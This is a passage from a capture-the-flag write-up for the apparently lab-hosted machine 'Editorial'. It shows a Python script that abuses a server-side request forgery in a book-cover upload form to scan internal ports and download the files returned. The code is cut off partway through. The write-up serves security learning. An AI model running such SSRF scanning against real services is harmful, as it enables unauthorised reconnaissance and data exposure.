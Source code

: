 After this point, I tried to upload a shell but I couldn't execute code on the server. Also the temporary file was deleted between 1-2 minutes. So, I researched on SSRF and found an [article discussing internal port scanning using SSRF called **Cross-Site Port Attack**(XSPA)](https://cyberweapons.medium.com/internal-port-scanning-via-ssrf-eb248ae6fa7b).

Then, I tried Burp's intruder but the scan time was very slow in the community edition. Therefore, I wrote a custom python script to scan for ports and using the temporary file upload link we can grab the information about any possible hits.

```python
import requests

def discoverPorts(port):
    # URL to which the request will be sent
    url = 'http://editorial.htb/upload-cover'

    # Files to be uploaded
    files = {
        'bookfile': ('', b'', 'application/octet-stream')
    }

    # Form data
    data = {
        'bookurl': 'http://127.0.0.1:' + port
    }

    # Headers for the request
    headers = {
        'Host': 'editorial.htb',
        'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0',
        'Accept': '*/*',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate, br',
        'Origin': 'http://editorial.htb',
        'Connection': 'close',
        'Referer': 'http://editorial.htb/upload',
        'DNT': '1',
        'Sec-GPC': '1'
    }

    # Send the POST request with the files, form data, and headers
    response = requests.post(url, files=files, data=data, headers=headers)

    # Print the response from the server
    if response.text != '/static/images/unsplash_photo_1630734277837_ebe62757b6e0.jpeg':
        print("Found Something Interesting on Port: " + port)
        print(response.text)
        if response.text.startswith("static/uploads/"):
            print("Getting the Interesting File")
            url = 'http://editorial.htb/' + response.text
            print(url)
            res_secret = requests.get(url)
            if res_secret.status_code == 200:
                with open('intresting-file.txt','wb') as file:
                    file.write(res_secret.text.encode())
                return 1
    print("Nothing found on Port: " + port)
    return 0

def getEndpointData(endpoint):
    # URL to which the request will be sent
    url = 'http://editorial.htb/upload-cover'

    # Files to be uploaded
    files = {
```